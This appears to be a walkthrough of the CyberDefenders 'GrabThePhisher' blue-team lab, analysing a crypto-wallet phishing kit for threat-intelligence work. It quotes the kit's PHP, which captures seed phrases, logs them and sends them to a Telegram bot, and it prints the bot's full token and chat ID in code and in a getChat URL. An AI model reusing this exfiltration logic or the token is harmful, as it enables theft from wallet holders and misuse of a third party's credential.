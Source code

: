 ```yaml
---
title: "GrabThePhisher"
classes: wide
header:
  teaser: /assets/images/Covers/GrabThePhisher.jpeg
ribbon:   Green
description: "A Walkthrough to the Cyberdefenders blue team lab focusing on Threat Intel and Reverse Engineering."
categories:
  - Reverse Engineering
toc: true
---
```




# [**GrabThePhisher**](https://cyberdefenders.org/blueteam-ctf-challenges/95/)
## **Scenario**

An attacker compromised a server and impersonated `https://pancakeswap.finance/`, a decentralized exchange native to BNB Chain, to host a phishing kit at `https://apankewk.soup.xyz/mainpage.php`. The attacker set it as an open directory with the file name `pankewk.zip`. 

Provided the phishing kit, you as a soc analyst are requested to analyze it and do your threat intel homework.

**Author:** Milann SHRESTHA     
**Difficulty:** Easy 

## Walkthrough
We start by unziping the file named `c75-GrabThePhisher.zip`, which has been provided, using `cyberdefenders.org` as password.

**###Q1:** Which wallet is used for asking the seed phrase?

After decompressing, we are left with a some files including an HTML file, exploring the content we see some wallets, only one off these wallets matches 

![alt text](/assets/images/reverse-engineering/GrabThePhisher/wallets.png)

Exploring the code, We see that only one wallet that has a "onclick" event for its buttons is `MetaMask` which uses JavaScript (vib(1); jj2 = true; jj = true;). This is commonly designed for asking the seed phrase.

![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-3.png)
![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-1.png) 
![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-2.png)

>**Answer:** `Meta****`

___

**###Q2:** What is the file name that has the code for the phishing kit?

Opening the Metamask folder, there are three files: 
- Fonts
- index.html
- metamask.php

Inside the `metamask.php`, we see thee following code:

```php
$date = date("m.d.Y");
$message = "<b>Welcome 2 The Jungle </b> 
    
<b>Wallet:</b> Metamask
<b>Phrase:</b> <code>" . $_POST["data"] . "</code>
<b>IP:</b> " .$_SERVER['REMOTE_ADDR'] . " | " .$geo. " | " .$city. "
<b>User:</b> " . $_SERVER['HTTP_USER_AGENT'] . "";
```
This constructs an HTML-formatted message containing:
- The wallet type (MetaMask is hardcoded).
- The recovery phrase entered by the victim `$_POST["data"]`.
- The attacker captures this phrase, which can be used to take full control of the victim’s wallet.
- The IP address, geolocation (country and city), and the user-agent string (browser and device information).

So, this is the file that  has the code for the phishing kit.

>**Answer:** `Meta****.php`

___

**###Q3:** In which language was the kit written?

>**Answer:** `PHP`

___


**###Q4:** What service does the kit use to retrieve the victim's machine information?

At the beginning the code, we see the following block:

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
```

This block of code uses the `Sypex Geo` API to retrieve the geolocation of the user based on their IP address `$_SERVER['REMOTE_ADDR']`, The country and city names are extracted and stored in $geo and $city.

>**Answer:** `Sy*** G**`

___

**###Q5:** How many seed phrases were already collected?

later in the code, we see this block:

```php
$_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";
@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	
```

Which is used to ensures the attacker has a backup of the stolen phrases, the recovery phrase `$_POST['data']` is also logged locally in a file `log.txt` on the server.

Now, we go the `log.txt`, we see that it has 3 already collected phrases:

![alt text](/assets/images/reverse-engineering/GrabThePhisher/logs.png)

>**Answer:** `3`

___

**###Q6:** Write down the seed phrase of the most recent phishing incident?

>**Answer:** `father also recycle ******** ******** ******** ******** ******** ******** ******** ********`

___

**###Q7:** Which medium had been used for credential dumping?

The following block of code uses the `sendTel()` function to send a crafted message to a Telegram chat.

The Telegram Bot API is used here. The bot token `$token` and chat ID `$id` are hardcoded.

It constructs the Telegram API URL and uses `file_get_contents()` to send the message via the bot, delivering the stolen information (recovery phrase, IP, etc.) to the attacker's Telegram account.

```php
sendTel($message);  
	
function sendTel($message){
    $id = "5442785564"; 
    $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
    $filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
    file_get_contents($filename);
```

>**Answer:** `Tele****`

___

**###Q8:** What is the token for the channel?

>**Answer:** `5457463144:AAG8t4k7e2e************************`

___

**###Q9:** What is the chat ID of the phisher's channel?

>**Answer:** `5442******`

___

**###Q10:** What are the allies of the phish kit developer?

The attacker had fingerprinted his code with the following greeting massage:

```php
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
 */
```

>**Answer:** `j1j1b1s@****`

___

**###Q11:** What is the full name of the Phish Actor?

Using the following request to the getChat method:

```php
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

The response is:

![alt text](/assets/images/reverse-engineering/GrabThePhisher/api_response.png)

>**Answer:** `Mar*** Aure****lius****`

___

**###Q12:** What is the username of the Phish Actor?

>**Answer:** `pumpkin****`


___
___

<p align="center"><span style="color:#00FFFF;">THE END</span></p>


___
___